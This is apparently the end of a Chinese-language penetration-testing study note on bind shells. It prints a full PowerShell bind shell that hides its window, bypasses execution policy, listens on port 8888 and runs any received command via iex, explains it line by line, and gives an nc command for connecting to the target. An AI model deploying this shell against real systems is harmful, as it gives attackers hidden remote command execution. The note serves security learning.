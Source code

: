    - **`c.sendall(p.stdout.read() + p.stderr.read())`**:
     - 读取命令的输出和错误信息，并将它们发送回客户端。

###### Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]8888; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

- **`-NoP`**：相当于 `-NoProfile`，在启动时不加载 PowerShell 用户的配置文件。
- **`-NonI`**：相当于 `-NonInteractive`，防止 PowerShell 提示用户交互。
- **`-W Hidden`**：相当于 `-WindowStyle Hidden`，使 PowerShell 窗口在执行时保持隐藏。
- **`-Exec Bypass`**：绕过执行策略限制，允许执行未签名的脚本。

**参数**
- **`$listener = [System.Net.Sockets.TcpListener]8888; $listener.start();`**：
   - 创建一个 `TcpListener` 对象监听本地的 8888 端口，并启动监听。这将使脚本能够接受来自指定端口的入站 TCP 连接。

- **`$client = $listener.AcceptTcpClient();`**：
   - 接受一个连接请求，创建一个 `TcpClient` 对象，用于与客户端通信。

- **`$stream = $client.GetStream();`**：
   - 获取与客户端关联的网络流，用于数据的发送和接收。

- **`[byte[]]$bytes = 0..65535|%{0};`**：
   - 初始化一个字节数组，用于存储从网络流中读取的数据。

- **`while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){...}`**：
   - 持续从流中读取数据，直到没有更多数据可读。这里 `$i` 是每次读取的字节数。

   - **`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);`**：
     - 将字节数组解码为 ASCII 字符串，这里的 `$data` 包含了远程发送的命令。

   - **`$sendback = (iex $data 2>&1 | Out-String);`**：
     - 执行接收到的命令（`iex` 即 `Invoke-Expression`），并将命令输出和错误信息转换为字符串。

   - **`$sendback2 = $sendback + "PS " + (pwd).Path + " ";`**：
     - 将命令的输出与当前 PowerShell 工作路径合并，形成新的返回字符串。

   - **`$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);`**：
     - 将返回的字符串编码为 ASCII 字节，准备发送回客户端。

   - **`$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();`**：
     - 将编码后的字节写回网络流，并清空缓冲区确保所有数据都被发送。

- **`$client.Close();`**：
   - 关闭客户端连接。

* ##### 在我们的主机上和目标主机建立连接
```bash
nc 1.1.1.1 8888
```


## 4.参考文献及来源
- [**HTB Academy**](https://academy.hackthebox.com/)
- [**InternalAllTheThings**](https://swisskyrepo.github.io/InternalAllTheThings/)
- [**ChatGPT**](https://chatgpt.com/)


>欢迎指出错误，以便更正!
>Welcome to comment!